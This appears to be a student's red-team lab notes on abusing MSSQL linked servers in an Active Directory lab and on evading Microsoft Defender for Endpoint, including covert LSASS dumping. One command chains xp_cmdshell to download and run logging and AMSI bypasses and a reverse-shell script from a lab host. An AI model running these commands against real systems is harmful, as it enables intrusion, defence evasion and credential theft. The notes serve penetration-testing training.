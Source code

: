 `Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose` (check if we have the privileges and the network connectivity to access the MSSQL Servers, see that we can only connect to dcorp-mssql)
`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose` (see if we are able to extract information)
`logoff` (we were supposed to have some information returned)
### **DB Links**
Allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of DB links between SQL Servers, that is, linked SQL servers it is possible to execute stored procedures. DB Links work even across forest trusts
- #### ***Search DB Links***
`Get-SQLServerLink -Instance dcorp-mssql -Verbose` or `select * from master..sysservers`
(we can see that the dcorp-mssql instance has a link to dcorp-sql1 and that is_data_access_enabled is True), 
- ##### ***Enumerate DB Links - Manually***
Openquery() function can be used to run queries on a linked DB: `select * from openquery("dcorp-sql1",'select * from master..sysserver'` (sql query that connects to dcorp-sql1 and it checks if there is another link)
Openquery queries can be chained to access links within links (nested links) `select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt","select * from master..sysservers")')`
- ##### ***Enumerate DB Links***
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose` (Will keep looking until it reaches the last link), 
we find we have sa (sysadmin) on eu-sql1.eu.eurocorp.local of another forest
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'"` (execute commands on all of the DB links)
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http:/172.16.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.X/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql1` (using xp_cmdshell it starts a powershell session that downloads script block logging and AMSI bypass and get a reverse shell) ***Remember to setup listener***
# **Learning Objective 22**
[[Learning Objective 22]]
# **EDR**
protect individual devices (endpoints) by continously monitoring for and responding to security threats. It includes features for threat detection, incident response, investigation, and forensics, making it a vital component of modern cybersecurity strategies. EDRs correlate activity to gain broader telemetry and improve on detections, even if all performed activity is undetected by an AV, EDRs can still correlate all actions performed to identigy attacker TTPs.
### **MDE**
Microsoft Defender for Endpoint, collects and processes behavioral signals from the OS and analyzes this using cloud security analytics. Also supports detections based on ASR (Attack Surface Reduction) rules, Exploit/Network protection, CFA (Controlled Folder Access) and Device Control
#### **MDE Bypass**
perform: SQL command execution through SQL Server links, Tool transfer, Credential extraction, Data exfiltration, Laterla movement/remote access
#### **MDE Bypass - Credential Extraction - LSASS Dump**
direct interaction/extraction of data from LSASS process is detected by MDE. More opsec friendly way is by performing a dump of the LSASS process in a covert way and then exfiltrating it to later analyze offline. However, standard techniques to create LSASS dumps (ex: taskmanager -> create dump file) are detected and blocked.
Most tools create a LSASS dump by:
1. Gaining a handle to the LSASS process
2. Creating a minidump using the MiniDumpWriteDump WinAPI function implemented in dbghelp.dll / dbgcore.dll
3. Writing the dump file on disk
All of these are heavily monitored by EDRs and are usually detected and blocked. To circumvent these detections, we can avoid using tools that implement the MiniDumpWriteDump function and perform the LSASS dump in a different way.